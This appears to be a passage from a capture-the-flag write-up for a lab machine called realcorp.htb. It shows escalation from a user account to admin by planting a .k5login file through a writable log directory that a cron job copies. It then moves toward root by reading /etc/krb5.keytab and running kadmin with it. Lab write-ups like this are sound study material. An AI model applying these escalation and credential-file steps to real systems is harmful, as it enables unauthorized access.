 > srv01.realcorp.htb is the hostname of machine
> keep only this

Then connect with ssh

```
ssh j.nakazawa@10.10.10.224
```

## **Privesc to Admin**

Cheking the crontab I found admin is running a script

```
admin /usr/local/bin/log_backup.sh
```

log_backup.sh

```bash
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

j.nakazawa is in the group of squid and we can write in the /var/log/squid dir
also whatever is in squid dir gets copied to /home/admin

Since every where is kerberos we can use kerberos feature of .k5login file
https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_config/k5login.html

just put the `j.nakazawa@REALCORP.HTB` in .k5login and put that in /var/log/squid

```
echo "j.nakazawa@REALCORP.HTB" > .k5login
cp .k5login /var/log/squid

ssh admin@srv01.realcorp.htb
```

and we are admin

## **Root**

ref: https://web.mit.edu/kerberos/krb5-devel/doc/admin/admin_commands/kadmin_local.html#kadmin-1

file krb5.keytab is useful becuase it is used in various authentication in kerberos
to view the content of that file

`klist -k /etc/krb5.keytab`

then login to kadmin

```
kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```
